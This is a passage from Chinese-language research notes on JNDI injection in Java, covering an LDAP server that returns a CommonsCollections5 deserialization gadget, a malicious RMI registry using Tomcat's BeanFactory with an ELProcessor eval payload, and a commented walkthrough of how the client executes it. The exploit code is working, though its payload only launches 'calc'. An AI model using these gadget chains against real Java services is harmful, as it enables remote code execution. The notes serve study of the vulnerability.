            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}

```

* **客户端触发反序列化的gadget**（TODO）

我们生成的恶意类即BadAttributeValueExpException的readObject打上断点，调试客户端，发现其利用栈如下



LdapCtx的c_lookup中调用了Obj类的decodeObject，这里有明显的对属性javaSerializedData（Byte数组）的反序列化操作

* **版本限制**：暂未发现，目前jdk8u231还能成功复现
* RMI是否存在该反序列化攻击（TODO）

##### 加载本地类

在前面的复现中提到过，远程加载类不能在本地类的classpath中，否则JNDI客户端不会选择加载远程代码，而是加载本地的类，在jdk8u121以后rmi默认不信任远程加载类,jdk8u191后，ldap默认不信任远程加载类，那是否可以找到这么一个较为通用的本地类，被Reference加载而实现RCE。

让我们看看这个类的要求：

> 该工厂类型必须实现`javax.naming.spi.ObjectFactory` 接口，因为在`javax.naming.spi.NamingManager#getObjectFactoryFromReference`最后的`return`语句对工厂类的实例对象进行了类型转换`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`；并且该工厂类至少存在一个 `getObjectInstance()` 方法。

`org.apache.naming.factory.BeanFactory`这个类被找到，并且该类存在于Tomcat依赖包中，所以利用范围还是比较广泛的。

我们需要有如下依赖

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>

<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
```

我们看看服务端代码

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ReferenceLocalClass {
    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1099");
        Registry registry = LocateRegistry.createRegistry(1099);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("obj", referenceWrapper);

    }
}

```

对`ResourceRef`这个类和相关代码分析一下，首先它是继承于Reference，这里`new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);`，我们跟进这个类看一下，发现"javax.el.ELProcessor"、"org.apache.naming.factory.BeanFactory"和最后一个null我们是熟悉的，就是Reference构造函数第一个参数被加载类、第二个参数工厂类和第三个参数类工厂的位置

```java
// ResourceRef#init
public ResourceRef(String resourceClass, String description,
                       String scope, String auth, boolean singleton) {
        this(resourceClass, description, scope, auth, singleton, null, null);
    }

public ResourceRef(String resourceClass, String description,
                       String scope, String auth, boolean singleton,
                       String factory, String factoryLocation) {
        super(resourceClass, factory, factoryLocation);
        StringRefAddr refAddr = null;
        if (description != null) {
            refAddr = new StringRefAddr(DESCRIPTION, description);
            add(refAddr);
        }
        if (scope != null) {
            refAddr = new StringRefAddr(SCOPE, scope);
            add(refAddr);
        }
        if (auth != null) {
            refAddr = new StringRefAddr(AUTH, auth);
            add(refAddr);
        }
        // singleton is a boolean so slightly different handling
        refAddr = new StringRefAddr(SINGLETON, Boolean.toString(singleton));
        add(refAddr);
    }
```

我们对客户端代码进行调试，定位到如下代码步入



这里成功加载了我们本地的BeanFactory，由于这个类并不是我们自定义的，在其构造函数中并没有恶意操作，因此，执行完getObjectFactoryFromReference后，并没有达成rce的目标



继续往后运行到



我们来分析一下BeanFactory的getObjectInstance方法

```java
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                    Hashtable<?,?> environment)
        throws NamingException {
        
        // obj是我们从服务端获取的ResourceRef
        if (obj instanceof ResourceRef) {

            try {

                Reference ref = (Reference) obj;
                String beanClassName = ref.getClassName();
                Class<?> beanClass = null;
                ClassLoader tcl =
                    Thread.currentThread().getContextClassLoader();
                if (tcl != null) {
                    try {
                        // 加载了javax.el.ELProcessor
                        beanClass = tcl.loadClass(beanClassName);
                    } catch(ClassNotFoundException e) {
                    }
                } else {
                    try {
                        beanClass = Class.forName(beanClassName);
                    } catch(ClassNotFoundException e) {
                        e.printStackTrace();
                    }
                }
                if (beanClass == null) {
                    throw new NamingException
                        ("Class not found: " + beanClassName);
                }

                BeanInfo bi = Introspector.getBeanInfo(beanClass);
                PropertyDescriptor[] pda = bi.getPropertyDescriptors();

                // javax.el.ELProcessor实例化
                Object bean = beanClass.newInstance();

                /* Look for properties with explicitly configured setter */
                RefAddr ra = ref.get("forceString");
                Map<String, Method> forced = new HashMap<>();
                String value;

                // ******1******
                if (ra != null) {
                    value = (String)ra.getContent();
                    Class<?> paramTypes[] = new Class[1];
                    paramTypes[0] = String.class;
                    String setterName;
                    int index;

                    /* Items are given as comma separated list */
                    for (String param: value.split(",")) {
                        param = param.trim();
                        /* A single item can either be of the form name=method
                         * or just a property name (and we will use a standard
                         * setter) */
                        index = param.indexOf('=');
                        if (index >= 0) {
                            setterName = param.substring(index + 1).trim();
                            param = param.substring(0, index).trim();
                        } else {
                            setterName = "set" +
                                         param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                                         param.substring(1);
                        }
                        try {
                            forced.put(param,
                                       beanClass.getMethod(setterName, paramTypes));
                        } catch (NoSuchMethodException|SecurityException ex) {
                            throw new NamingException
                                ("Forced String setter " + setterName +
                                 " not found for property " + param);
                        }
                    }
                }
                // ******1****** 到这里，这段代码解析了`new StringRefAddr("forceString", "x=eval")`，获取了"x=eval"，并通过反射从`javax.el.ELProcessor`中获取了方法eval，该方法的参数为{String.class}，并将这个方法和它的参数"x"存入一个HashMap

                Enumeration<RefAddr> e = ref.getAll();

                // 这里开始遍历ResourceRef中的每一个RefAddr
                while (e.hasMoreElements()) {

                    ra = e.nextElement();
                    String propName = ra.getType();

                    // 对于一下这些内容略过处理
                    if (propName.equals(Constants.FACTORY) ||
                        propName.equals("scope") || propName.equals("auth") ||
                        propName.equals("forceString") ||
                        propName.equals("singleton")) {
                        continue;
                    }

                    value = (String)ra.getContent();

                    Object[] valueArray = new Object[1];

                    /* Shortcut for properties with explicitly configured setter */
                    // 根据从RefAddr的Type，到之前的forced这个HashMap中取方法
                    Method method = forced.get(propName);
                    // 如果根据Type取出了方法，将Type对应的字符串作为参数传入方法
                    if (method != null) {
                        valueArray[0] = value;
                        try {
                            // 最终，这里相当于执行了(new ELProcessor()).eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")");
                            method.invoke(bean, valueArray);
                        } catch (IllegalAccessException|
                                 IllegalArgumentException|
                                 InvocationTargetException ex) {
                            throw new NamingException
                                ("Forced String setter " + method.getName() +
                                 " threw exception for property " + propName);
                        }
                        continue;
                    }

                    int i = 0;
                    for (i = 0; i<pda.length; i++) {

                        if (pda[i].getName().equals(propName)) {

                            Class<?> propType = pda[i].getPropertyType();

                            if (propType.equals(String.class)) {
                                valueArray[0] = value;
                            } else if (propType.equals(Character.class)
                                       || propType.equals(char.class)) {
                                valueArray[0] =
                                    Character.valueOf(value.charAt(0));
                            } else if (propType.equals(Byte.class)
                                       || propType.equals(byte.class)) {
                                valueArray[0] = Byte.valueOf(value);
                            } else if (propType.equals(Short.class)
                                       || propType.equals(short.class)) {
                                valueArray[0] = Short.valueOf(value);
                            } else if (propType.equals(Integer.class)
                                       || propType.equals(int.class)) {
                                valueArray[0] = Integer.valueOf(value);
                            } else if (propType.equals(Long.class)
                                       || propType.equals(long.class)) {
                                valueArray[0] = Long.valueOf(value);
                            } else if (propType.equals(Float.class)
                                       || propType.equals(float.class)) {
                                valueArray[0] = Float.valueOf(value);
                            } else if (propType.equals(Double.class)
                                       || propType.equals(double.class)) {
                                valueArray[0] = Double.valueOf(value);
                            } else if (propType.equals(Boolean.class)
                                       || propType.equals(boolean.class)) {
                                valueArray[0] = Boolean.valueOf(value);
                            } else {
                                throw new NamingException
                                    ("String conversion for property " + propName +
                                     " of type '" + propType.getName() +
                                     "' not available");
                            }

                            Method setProp = pda[i].getWriteMethod();
                            if (setProp != null) {
                                setProp.invoke(bean, valueArray);
                            } else {
                                throw new NamingException
                                    ("Write not allowed for property: "
                                     + propName);
                            }

                            break;

                        }

                    }

                    if (i == pda.length) {
                        throw new NamingException
                            ("No set method found for property: " + propName);
                    }

                }

                return bean;

            } catch (java.beans.IntrospectionException ie) {
                NamingException ne = new NamingException(ie.getMessage());
                ne.setRootCause(ie);
                throw ne;
            } catch (java.lang.IllegalAccessException iae) {
                NamingException ne = new NamingException(iae.getMessage());
                ne.setRootCause(iae);
                throw ne;
            } catch (java.lang.InstantiationException ie2) {
                NamingException ne = new NamingException(ie2.getMessage());
                ne.setRootCause(ie2);
                throw ne;
            } catch (java.lang.reflect.InvocationTargetException ite) {
                Throwable cause = ite.getCause();
                if (cause instanceof ThreadDeath) {
                    throw (ThreadDeath) cause;
                }
                if (cause instanceof VirtualMachineError) {
                    throw (VirtualMachineError) cause;
                }
                NamingException ne = new NamingException(ite.getMessage());
                ne.setRootCause(ite);
                throw ne;
            }

        } else {
            return null;
        }

    }
```

* 是否能找到其他类似利用方式的本地类。由于这里的对工厂类和被加载的类都进行初始化操作，是否能找到直接在构造函数中进行危险操作的类呢（TODO）

#### JNDI Search注入（TODO）


#### 已知的JNDI注入漏洞

已知的底层调用`InitialContext.lookup()`的易被攻击的框架和方法：

* org.springframework.transaction.jta.JtaTransactionManager.readObject()
* 反序列化利用链com.sun.rowset.JdbcRowSetImpl.execute()
* javax.management.remote.rmi.RMIConnector.connect()
* org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName()

### marshalsec